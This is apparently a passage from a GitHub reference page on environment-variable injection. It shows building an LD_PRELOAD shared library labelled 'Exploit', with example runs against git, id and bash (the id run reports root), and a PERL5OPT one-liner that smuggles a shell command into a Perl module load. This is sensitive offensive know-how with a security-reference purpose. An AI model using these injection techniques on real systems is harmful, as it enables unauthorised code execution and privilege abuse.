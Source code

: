     ```bash
    $ gcc -Wall -O3 -fPIC -shared inject.c -o inject.so
    ```

1. Exploit:

    ```bash
    $ LD_PRELOAD=./inject.so git -v

    [+] Inject.so Loaded!
    [*] PID: 1337
    [*] Process: /usr/bin/git

    Unknown option: -v
    usage: git [--version] [--help] [-C <path>] [-c name=value]
            [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
            [-p | --paginate | --no-pager] [--no-replace-objects] [--bare]
            [--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
            <command> [<args>]

    [-] Inject.so is being unloaded!
    ```

    ```bash
    $ LD_PRELOAD=./inject.so id

    [+] Inject.so Loaded!
    [*] PID: 1337
    [*] Process: /usr/bin/id

    uid=0(root) gid=0(root) groups=0(root)
    ```

    ```bash
    $ LD_PRELOAD=./inject.so bash -c "echo 'hello'"

    [+] Inject.so Loaded!
    [*] PID: 1337
    [*] Process: /bin/bash

    hello

    [-] Inject.so is being unloaded!
    ```

References:
- [LD_PRELOAD: How to Run Code at Load Time](https://www.secureideas.com/blog/2021/02/ld_preload-how-to-run-code-at-load-time.html)
- [elttam Blog: Remote LD_PRELOAD Exploitation](https://www.elttam.com/blog/goahead/)

## PERL5OPT

[PERL5OPT](https://perldoc.perl.org/perlrun#PERL5OPT) specifies command-line options but is restricted to only accepting the options `CDIMTUWdmtw`.

`PERL5OPT=-M` can be used to load a Perl module and add extra code after the module name:

```bash
PERL5OPT='-Mbase;print(`{cmdname,arg1,arg2}`)' perl /dev/null
```
